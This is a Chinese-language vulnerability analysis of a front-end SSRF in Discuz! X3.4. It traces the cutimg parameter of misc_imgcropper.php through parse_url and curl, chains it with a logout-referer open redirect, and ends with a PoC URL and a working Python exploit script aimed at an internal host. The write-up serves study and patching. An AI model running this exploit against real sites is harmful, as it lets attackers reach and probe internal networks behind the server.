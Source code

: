```yaml
---
title: Discuz x3.4 前台ssrf
id: zhfly2872
---
```


# Discuz! X3.4 前台ssrf

## 一、漏洞简介

DDiscuz! X3.4 source/module/misc/misc_imgcropper.php页面中的cutimg参数，因为应用程序的远程下载功能过滤不严，配合前台任意URL跳转漏洞，可以造成SSRF漏洞，可以对与外部隔离的内部环境进行探测和攻击

## 二、漏洞影响

*   <= x3.4

*   windows

*   php>5.3+php-curl<=7.54

*   DZ开放在80端口

## 三、复现过程

### 漏洞分析

**本地ssrf**

/source/module/misc/misc_imgcropper.php 55行

```
 require_once libfile('class/image');	$image = new image();	$prefix = $_GET['picflag'] == 2 ? $_G['setting']['ftp']['attachurl'] : $_G['setting']['attachurl'];	if(!$image->Thumb($prefix.$_GET['cutimg'], $cropfile, $picwidth, $picheight)) {		showmessage('imagepreview_errorcode_'.$image->errorcode, null, null, array('showdialog' => true, 'closetime' => true));	}
$prefix`可以通过GET传递`$_GET['picflag']`为2进行三元操作，变成了默认的`/`，然后和`$_GET['cutimg']`进行拼接作为第一个参数传进了`$image->Thumb 
```

source/class/class_image.php 51行

```
 function Thumb($source, $target, $thumbwidth, $thumbheight, $thumbtype = 1, $nosuffix = 0) {		$return = $this->init('thumb', $source, $target, $nosuffix);	} 
```

拼接后的参数作为`$source`又传进了init函数

source/class/class_image.php 118行

```
 function init($method, $source, $target, $nosuffix = 0) {		global $_G;		$this->errorcode = 0;		if(empty($source)) {			return -2;		}		$parse = parse_url($source);		if(isset($parse['host'])) {			if(empty($target)) {				return -2;			}			$data = dfsockopen($source);			$this->tmpfile = $source = tempnam($_G['setting']['attachdir'].'./temp/', 'tmpimg_');			if(!$data || $source === FALSE) {				return -2;			}			file_put_contents($source, $data);		} 
```

可以发现如果`$source`经过`parse_url`的解析结果中如果包含host字段就不结束流程，然后将`$source`参数传入`dfsockopen`函数。Php中的`parse_url`函数是可以对`//`开头的域名进行解析的, `$source`本身就是`/`开头，因此只需要通过开始的`$_GET['cutimg']`注入`/www.0-sec.org，变成`//www.0-sec.org`即可继续执行。

![image](../img/5900b0139b39025222e4523ecfc7b008.png)

source/function/function_core.php 199行

```
function dfsockopen($url, $limit = 0, $post = '', $cookie = '', $bysocket = FALSE, $ip = '', $timeout = 15, $block = TRUE, $encodetype  = 'URLENCODE', $allowcurl = TRUE, $position = 0, $files = array()) {	require_once libfile('function/filesock');	return _dfsockopen($url, $limit, $post, $cookie, $bysocket, $ip, $timeout, $block, $encodetype, $allowcurl, $position, $files);} 
```

进入dfsockopen函数后，我们构造的字符串变为$url，然后传入了_dfsockopen函数。

dz/source/function/function_filesock.php 31行

![image](../img/45d719060b8794fdcdb3f6c84d497c5e.png)

发起了curl请求，就是这里触发了ssrf，这里的现有使用后parse_url解析了一次$url，和上面的解析是一样的，然后又进行了拼接成为了curl的地址。

![image](../img/ccc1c5c5114e38f6b7cba687bcdd64d2.png)

其$scheme为空，如果我们为cutimg传入/dz//member.php，那么到就会变成://dz//member.php

![image](../img/c1b3040fec0be94c6f648dba4ddfc52c.png)

在php的curl中我们尝试访问://dz/forum.php

![image](../img/ab8f93f1104928b0061ce63d349ec66f.png)

可以发现无指定协议的默认就是http协议，://是代表访问本地dz/forum.php表示路径和path，因此能够访问首页，到这里就有了一个可以对通网站下进行ssrf的漏洞点。

Curl的配置当中开启了跳转

![image](../img/302d6a1ee153bdb59b225f7a16aaaf5d.png)

再找到一个站内的url跳转，就能绕过站内curl的限制，实现真正的ssrf。

### 前台任意url跳转

/source/class/class_member.php 310行

![image](../img/8448323ba66aa6a598e8b9bf61484e97.png)

调用了dreferer()结果作为跳转地址，继续跟进该函数。

source/function/function_core.php 1498行

![image](../img/f158b3b4b79c540f0cf12877d27a5c24.png)

`$_G['referer']`这个参数我们可控，同样使用了`parse_url`进行了解析，首先对协议进行了判断，需要属于`http/https`。

然后又对host字段和`$_SERVER['HTTP_HOST']`进行了对比，判断是否在同一个域名下，因为攻击中是通过curl发起的请求，$_SERVER[‘HTTP_HOST’]此时为空，但是和www.进行了，因此这里域名为`www.`即可绕过判断成功注入location字段

此时处理跳转的是php的curl，curl这里会因为`#@`出现解析问题，会跳转到192.168.2.63:6666，也就是形成ssrf。

![image](../img/5b99face9120476041a84c6e06d09191.png)

站内ssrf->前台get型的任意url跳转->ssrf漏洞

**总结**：

因为应用程序的远程下载功能过滤不严，利用php中的parse_url还有curl解析特性，配合前台任意URL跳转漏洞，可以造成SSRF漏洞。

### poc

```
htp://www.0-sec.org/code-src/dz/Discuz_TC_BIG5/upload/member.php?mod=logging&action=logout&XDEBUG_SESSION_START=13904&referer=http://localhost%23%40www.baidu.com&quickforward=1 
```

### python 脚本

```
# coding=utf-8
import requests
import re
from urllib.parse import urlparse, quote
from urllib import parse
if __name__ == "__main__":
    url = "http://192.168.66.129/dz/"
    ssrf_target = "192.168.0.36:6666"
    path = urlparse(url).path
    payload = quote(
        "/member.php?mod=logging&action=logout&quickforward=1&referer=http://www.%23%40{ssrf_target}".format(
            ssrf_target=ssrf_target))
    s = requests.Session()
    html = s.get(url).text
    searchObj = re.search(r'name="formhash" value="(.*?)"', html, re.M | re.I)
    formhash = searchObj.group(1)
    rs = s.post(
        url + "misc.php?mod=imgcropper&imgcroppersubmit=1&formhash={formhash}&picflag=2&cutimg={path}{payload}".format(
            formhash=formhash, path=path, payload=payload))
    exit() 
```

![image](../img/b9edbfc7a606a3a41d2655d332b6d4ea.png)

## 参考链接

> [http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html](http://www.rai4over.cn/2018/12/07/Discuz-3-4%E5%89%8D%E5%8F%B0%E6%9C%89%E9%99%90%E5%88%B6SSRF%E6%BC%8F%E6%B4%9E/index.html)